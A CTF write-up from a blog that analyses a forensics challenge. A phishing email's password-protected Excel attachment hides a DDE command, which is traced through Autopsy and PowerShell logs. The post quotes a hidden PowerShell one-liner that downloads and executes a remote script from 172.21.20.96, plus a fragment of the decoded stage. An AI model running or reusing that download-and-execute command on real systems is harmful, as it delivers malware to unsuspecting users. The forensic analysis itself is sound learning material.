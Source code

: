 +++
author = "dree"
title = "idek CTF 2022"
date = "2023-01-24"
tags = [
    "OSINT", "Forensics"
]
+++

*Was in 2023, not 2022 since event delayed. Great CTF with a lot of challenges from the team **idek** ¯\_(ツ)_/¯. My team WolvSec came in **17th** out of **846** teams. I will be going over my 2 Forensics solves and 5 OSINT. Currently just Forensics 1, I plan to add the rest later!

<!--more-->

## HiddenGem Mixtape 1: Initial Access
Authors: `Bquanman`  
Points: **478**  
Solves: **47**

### Challenge Description:
We're pretty sure there's been a hack into our system. The incident is suspected to be caused by an employee opening a document file received via email even though he deleted it shortly afterwards. We managed to do a logical acquisition of data from his hard drive. However, when we open the document file, it looks empty, can you analyze what it contains?


### Approach

We are given a `.vhdx` file, which contains a Windows Image. To open in Autopsy, I double clicked the file on my Windows machine and imported that disk image. The first thing that struck my eye when doing this was the email saved onto the machine.

{{< img src="autopsyemail.png" >}}

The email HTML gives us the password `Privacy4411@2023!!!`. This can be used to open the attachment in the email, which gives us a file `Policy.xlsx`. In this file my teammates and I tried to find anything meaningful, even performing stego on the image of Tommy Xiaomi but with no success. I noticed a weird line on page 3, which was hidden, but it did not show correct output on google sheets since the file was converted. However, `doubledelete` was able to view the line
```
CMD.EXE /c powershell.exe -w hidden $e=(New-Object System.Net.WebClient).DownloadString(\"http://172.21.20.96/windowsupdate.ps1\");IEX $e
```
This can also be viewed on any.run when importing the file

{{< img src="anyrunoutput.png" >}}

This malicious command seems to have downloaded a file called `windowsupdate.ps1`. I searched this string in Autopsy, and found a command where a very long base64 string was downloaded from the Powershell logs. Decoding the b64 we an object that starts with:
```
(New-OBJECT MAnAGeMent.AUtOmaTiON.PsCreDEntIAL ' ', ('76492d111..)
```

We can run this into a powershell emulator to get the following output:

```
$bwqvRnHz99 = (104,116,116,112,115,58,47,47,112,97,115,116,101);
$bwqvRnHz99 += (98,105,110,46,99,111,109,47,104,86,67,69,85,75,49,66);
$flag = [System.Text.Encoding]::ASCII.GetString($bwqvRnHz99);
$s='172.21.20.96:8080';$i='eef8efac-321d465e-e9d053a7';
$p='http://';$v=Invoke-Web...
```

And there we see a `$flag` variable, signaling this is likely our flag. Running just that and printing we get a pastebin:

{{< img src="tiooutput.png" >}}

And we get the flag! As well as the resource: https://sensepost.com/blog/2016/powershell-c-sharp-and-dde-the-power-within

flag: `idek{MS_ExCel_DyN4m1c_D4ta_ExcH@ng3_1s_3a5y_t0_d3teCt}`
